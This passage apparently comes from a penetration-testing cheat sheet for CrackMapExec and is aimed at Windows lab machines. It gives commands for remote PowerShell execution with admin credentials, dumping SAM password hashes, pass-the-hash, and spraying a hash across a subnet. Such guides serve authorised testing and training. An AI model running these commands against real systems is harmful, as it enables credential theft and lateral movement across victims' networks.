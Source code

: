 You can also directly execute PowerShell commands using the -X flag:

#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
06-05-2016 14:36:06 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 CME          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!

Checked for logged in users

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --lusers

Credential Attacks
Dumping the local SAM hashes

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam

Passing-the-Hash

CME supports authenticating via SMB using Passing-The-Hash attacks with the -H flag:

crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH

crackmapexec smb <target(s)> -u username -H NTHASH

Passing-the-Hash against subnet

Login to all subnet machines via smb with admin + hash. By using the –local-auth and a found local admin password this can be used to login to a whole subnets smb enabled machines with that local admin pass/hash.

cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4ff0a6e8d9f4a61100e51' --local-auth

NULL Sessions

You can log in with a null session by using '' as the username and/or password
